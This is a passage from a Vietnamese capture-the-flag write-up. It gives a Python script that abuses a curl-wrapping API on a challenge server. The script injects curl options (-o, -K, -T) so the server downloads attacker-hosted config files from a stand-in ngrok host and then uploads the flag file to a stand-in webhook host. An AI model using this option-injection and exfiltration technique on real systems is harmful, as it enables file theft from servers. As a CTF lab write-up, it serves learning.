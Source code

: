 - Cuối cùng là upload file GET về server của ta `url=http://WEBHOOKSERVER.COM&opt=-T&data=GET`

Payload tự động lấy flag

```py
import requests
import time

# URL = "http://localhost:8888"
URL = "http://45.122.249.68:20014"

data = {
    "url": "https://NGROKSERVER/options.txt",
    "opt": "-o",
    "data": "GET"
}
r = requests.post(f"{URL}/api/curr", data=data)

time.sleep(1)

data = {
    "url": "https://NGROKSERVER/test.data.dat",
    "opt": "-o",
    "data": "POST"
}
r = requests.post(f"{URL}/api/curr", data=data)

time.sleep(1)

data = {
    "url": "http://ABCXYZ.COM",
    "opt": "-K",
    "data": "GET"
}
r = requests.post(f"{URL}/api/curr", data=data)

time.sleep(5)

data = {
    "url": "http://WEBHOOKSERVER.COM",
    "opt": "-T",
    "data": "GET"
}

r = requests.post(f"{URL}/api/curr", data=data)


```

![alt text](assets/wannagame/11.png)
